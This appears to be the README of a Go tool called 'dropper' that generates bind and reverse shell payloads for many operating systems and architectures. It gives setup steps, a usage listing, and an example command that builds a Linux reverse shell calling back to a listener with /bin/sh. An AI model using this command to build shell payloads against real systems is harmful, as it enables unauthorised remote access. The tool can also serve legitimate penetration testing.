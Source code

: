 Dropper

In order to run dropper, you must already have your GOPATH configured properly.
For more information on setting up your GOPATH and Golang environment, please visit the golang wiki on GitHub: 

https://github.com/golang/go/wiki/SettingGOPATH

If everything is all set, navigate to your GOPATH on your system run clone the repo using `git` or `go`.

<code>git clone https://github.com/im4x5yn74x/dropper.git</code>

<code>go get github.com/im4x5yn74x/dropper</code>

Once cloned, change to the dropper folder and give it a test run.

<code>cd dropper/;</code><br>
<code>go run dropper.go</code>

+...|Choose an OS|...+
<br>
&#x2d; windows<br>
&#x2d; linux<br>
&#x2d; freebsd<br>
&#x2d; nacl<br>
&#x2d; netbsd<br>
&#x2d; openbsd<br>
&#x2d; plan9<br>
&#x2d; solaris<br>
&#x2d; dragonfly<br>
&#x2d; darwin<br>
&#x2d; android<br>

&#x3e;_: 

Feel free to compile it and use provide arguments to quickly build your payloads. 

<code>go build dropper.go</code><br>
<code>./dropper -a 386 -o potato -p linux -l 127.0.0.1:1337 -s /bin/sh -t reverse</code><br>
<code>./dropper -h</code>
<pre>
Usage of ./dropper:
  -a string
	Architecture: 386, amd64, amd64p32, arm, arm64, ppc64, ppc64le, mips, mipsle, mips64, mips64le, s390x, sparc64
  -l string
	Listening host: <listening ip:port>
  -o string
	Output filename: <anything goes>
  -p string
	Operating System: windows, linux, freebsd, nacl, netbsd, openbsd, plan9, solaris, dragonfly, darwin, android
  -s string
	Shell type: C:\Windows\System32\cmd.exe, C:\Windows\SYSWOW64\WindowsPowerShell\v1.0\powershell.exe, /bin/sh, /system/bin/sh, bypass
  -t string
	Payload type: bind/reverse
</pre>
 
